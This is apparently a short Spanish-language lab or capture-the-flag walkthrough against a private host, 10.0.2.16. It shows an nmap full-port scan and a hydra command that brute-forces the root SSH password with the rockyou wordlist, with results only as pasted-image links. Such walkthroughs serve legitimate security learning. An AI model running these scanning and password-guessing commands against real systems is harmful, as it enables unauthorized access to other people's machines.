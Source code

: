 ```
nmap -p- -open -sS -sC -sV -Pn 10.0.2.16 -vvv
```

el resultado es :
![[Pasted image 20240531082833.png]]
vemos que hay en el puerto 80 
![[Pasted image 20240531082946.png]]
al no tener de donde tirar podemos usar hydra.
```
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.0.2.16 ssh

```
![[Pasted image 20240531090510.png]]
ahora solo resta conectarnos via SSH
